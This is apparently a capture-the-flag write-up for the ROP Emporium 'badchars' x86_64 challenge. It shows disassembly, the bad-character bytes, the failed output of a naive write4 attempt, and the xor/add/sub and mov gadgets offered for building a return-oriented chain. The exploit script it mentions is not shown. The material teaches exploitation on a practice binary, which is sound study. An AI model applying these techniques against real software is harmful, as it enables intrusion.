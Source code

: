 The bads characters are :

```
0x7fb56b800aa0 <badcharacters>:	0x78	0x67	0x61	0x2e
```

If one byte is a bad char it is changed by 0xeb

    │    ╎│╎│   0x000009bc      38c1           cmp cl, al
    │   ┌─────< 0x000009be      7509           jne 0x9c9
    │   │╎│╎│   0x000009c0      488b45c8       mov rax, qword [var_38h]
    │   │╎│╎│   0x000009c4      c64405e0eb     mov byte [rbp + rax - 0x20], 0xeb


This time the `print_file`function is not in the `badchars` program but in the library.
But fortunatly, a not called but existing function `usefulFunction` call it and then print_file is refenced in the PLT table.

Elsewhere, without leak we dont have the adresse of print_file in the lib.

```
gef➤  disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:	push   rbp
   0x0000000000400618 <+1>:	mov    rbp,rsp
   0x000000000040061b <+4>:	mov    edi,0x4006c4
   0x0000000000400620 <+9>:	call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:	nop
   0x0000000000400626 <+15>:	pop    rbp
   0x0000000000400627 <+16>:	ret
End of assembler dump.
```

If we try to apply write4 technic on this program we will obtain :

    badchars by ROP Emporium
    x86_64

    badchars are: 'x', 'g', 'a', '.'
    > Thank you!
    Failed to open file: fl\xeb\xeb\xebt\xebt

(the script is in the end of the post )

Some gadget are suggested to us :

```sh
[0x00400628]>  pd 8
            ;-- usefulGadgets:
            0x00400628      453037         xor byte [r15], r14b
            0x0040062b      c3             ret
            0x0040062c      450037         add byte [r15], r14b
            0x0040062f      c3             ret
            0x00400630      452837         sub byte [r15], r14b
            0x00400633      c3             ret
            0x00400634      4d896500       mov qword [r13], r12
            0x00400638      c3             ret
```
